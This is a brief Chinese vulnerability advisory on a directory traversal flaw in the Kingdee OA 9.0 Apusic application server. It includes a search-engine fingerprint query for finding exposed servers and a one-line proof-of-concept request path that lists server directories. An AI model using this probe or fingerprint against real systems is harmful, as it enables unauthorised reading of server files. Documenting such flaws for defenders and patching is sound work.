


金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞¶
漏洞描述¶
金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息
漏洞影响¶
金蝶OA 9.0 Apusic应用服务器(中间件)
网络测绘¶
app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"
漏洞复现¶
登录页面

验证POC
/admin/protected/selector/server_file/files?folder=/
